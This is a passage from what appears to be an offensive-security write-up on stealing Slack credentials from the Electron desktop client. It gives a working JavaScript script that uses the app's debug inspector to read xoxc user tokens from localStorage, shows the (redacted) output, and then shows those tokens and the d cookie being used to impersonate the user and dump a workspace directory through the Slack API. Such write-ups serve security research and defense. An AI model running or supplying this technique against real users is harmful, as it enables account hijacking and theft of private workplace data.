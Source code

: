 
Next, let's work on lifting out the user token that goes with that cookie. The token is submitted with every request in the request body, and begins with `xoxc-`. It should be accessible via the `localConfig_v2` key in Local Storage:
```js
// dump_slack_tokens.js
// Get a handle to the Electron APIs
electron = process.mainModule.require('electron');

// Get the first WebContents instance that we can access the associated Local Storage
window = electron.webContents.getAllWebContents()[0];

// We have to go one level deeper. Using javascript execution in Electron's V8 runtime, we
// will in turn trigger javascript execution in the target window.
// Look, I'm not proud of it either. 
let config_blob = await window.executeJavaScript('localStorage.localConfig_v2');

// Shave off the cruft and make a nice object to stringify that just contains the 
// workspace name and the associated token.
let config_obj = JSON.parse(config_blob);
let teams = Object.values(config_obj.teams)
let extracted_teams = [];

teams.forEach(e => {
  extracted_teams.push({
    'name': e.name,
    'token': e.token
  })
});

JSON.stringify(extracted_teams)
```

Let's see what we got:
```shell
$ ./electron-probe -inspect-target http://localhost:9229 -script scripts/dump_slack_tokens.js | jq

[
  {
    "name": "r2c",
    "token": "xoxc-65630S1[ REDACTED ]"
  },
  {
    "name": "Binary Ninja Public Chat",
    "token": "xoxc-1300035[ REDACTED ]"
  }, 
  [ SNIP ]
]
```

## Using The Credentials
Now we have both the `d` cookie as well as the `xoxc` token required to authenticate as our target user. We can use these credentials together to access the Slack API as the target user. For example, we can use [Slarf](https://github.com/xpcmdshell/slarf) to dump the user directory for a workspace:
```shell
$ ./slarf -cookie aX9QnD8F[REDACT] -token xoxc-1300035[REDACT] | jq '.[].name'
"slackbot"
"actae0n"
[ SNIP ]
```
